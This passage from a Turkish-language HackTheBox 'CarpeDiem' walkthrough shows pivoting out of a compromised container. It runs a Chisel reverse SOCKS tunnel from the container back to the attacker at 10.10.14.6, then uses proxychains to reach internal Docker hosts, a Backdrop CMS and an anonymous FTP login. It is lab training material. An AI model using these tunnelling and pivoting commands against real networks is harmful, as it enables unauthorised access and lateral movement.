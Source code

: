 #### Tunnel with Chisel

Bu noktada, bu ağa bir proxy almak için **[Chisel](https://github.com/jpillora/chisel)** yüklemek faydalı olabilir (ancak **CarpeDiem**'i bununla tamamlamak da mümkündür). **Python** ile barındıracağım ve ardından **wget** ile yükleyeceğim. Sonrasında ise sunucuyu sanal makinemde başlatacağım.

```
oxdf@hacky$ ./chisel_1.7.7_linux_amd64 server -p 8000 --reverse
2022/11/28 21:04:03 server: Reverse tunnelling enabled
2022/11/28 21:04:03 server: Fingerprint QgJndP8XXAYGo7Jf2+vSTSFH4iAa+tNYtrbWrm82J4k=
2022/11/28 21:04:03 server: Listening on http://0.0.0.0:8000
```

Ve konteynırdan bağlanacağım:

```
www-data@3c371615b7aa:/tmp$ ./chisel_1.7.7_linux_amd64 client 10.10.14.6:8000 R:socks 
2022/11/28 21:05:25 client: Connecting to ws://10.10.14.6:8000
2022/11/28 21:05:25 client: Connected (Latency 86.893335ms)
```

Hem proxychains'i hem de FoxyProxy'yi bu socks proxy'yi kullanacak şekilde yapılandıracağım ve artık bu subnet üzerindeki hostlarla etkileşime geçebileceğim. Örneğin, .1 “Coming Soon” sitesini gösteriyor:

![Pasted image 20250108061950.png](/img/user/Pasted%20image%2020250108061950.png)


#### 172.17.0.1 - host

Tipik olarak Docker'da .1 host'tur. CarpeDiem için verilen IP'de gördüklerimle eşleşmesi de durumun böyle olduğuna dair iyi bir işaret.

#### 172.17.0.2 - backdrop

nmap bu hostun HTTP (80), HTTPS (443) ve FTP (21) üzerinde dinleme yaptığını gösterdi. HTTP sitesi sadece HTTPS'ye yönlendiriyor. Bu bir [Backdrop CMS](https://backdropcms.org/) örneğidir:

![Pasted image 20250108062038.png](/img/user/Pasted%20image%2020250108062038.png)

**backdrop.carpediem.htb** hostname'ini gösteriyor. Bunu **hosts** dosyama ekleyeceğim, ancak sanal makinemden doğrudan erişemiyorum. Giriş bilgilerine sahip değilim (yukarıdaki kimlik bilgileri çalışmıyor) ve **Backdrop CMS** için doğrulama gerektirmeyen herhangi bir açık bulamıyorum.

Host üzerinde bir FTP sunucusu var ve anonim girişe izin veriyor:

```
oxdf@hacky$ proxychains ftp 172.17.0.2
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.17.0.2:21  ...  OK
Connected to 172.17.0.2.
220 (vsFTPd 3.0.3)
Name (172.17.0.2:oxdf): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

